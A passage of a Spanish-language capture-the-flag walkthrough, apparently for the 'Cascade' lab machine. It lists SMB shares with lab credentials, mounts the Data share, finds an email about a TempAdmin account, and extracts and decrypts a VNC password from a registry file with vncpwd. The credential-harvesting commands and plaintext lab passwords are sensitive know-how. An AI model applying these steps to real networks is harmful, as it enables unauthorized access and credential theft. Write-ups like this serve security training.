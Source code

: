 Miramos Si tenemos accesso a directorio compartidos a nivel de red

```bash
smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
```

podemos ver recursos como:

- Data
- NETLOGON
- print$
- SYSVOL

Creamos una montura contra el directorio `Data`

```bash
mkdir /mnt/smbmounted
mount -t cifs //10.10.10.182/Data /mnt/smbmounted -o username=r.thompson,password=rY4n5eva,domain=cascade.local,rw
cd /mnt/smbmounted
tree
```

Vemos un fichero `Meeting_Notes_June_2018.html` y lo analyzamos desde un servidor web

```bash
cd /var/www/html
cp /mnt/smbmounted/IT/Email\ Archives/Meeting_Notes_June_2018.html index.html
service apache2 start
```

Y lo miramos desde firefox en localhost. Y vemos un email escrito por Steve (s.smith) que nos dice que hay una cuenta temporar 
llamada TempAdmin que a sido creada para manejar migraciones y que esta cuenta tiene la misma contraseña que el usuario admin.

Mirando los otros ficheros, vemos un `VNC Install.reg`.

```bash
file VNC\ Install.reg
cat VNC\ Install.reg
```

Aqui podemos ver una contraseña en hexadecimal

```bash
echo "6b,cf,2a,4b,6e,5a,ca,0f" | tr -d ','
echo "6b,cf,2a,4b,6e,5a,ca,0f" | tr -d ',' | xxd -ps -r
echo "6b,cf,2a,4b,6e,5a,ca,0f" | tr -d ',' | xxd -ps -r > pass
cat password
```

Vemos que el contenido esta encryptado. Buscamos por internet si existe un decrypter para contraseñas de VNC

```bash
git clone https://github.com/jeroennijhof/vncpwd
cd vncpwd
make
make install
upx
./vncpwd password
```
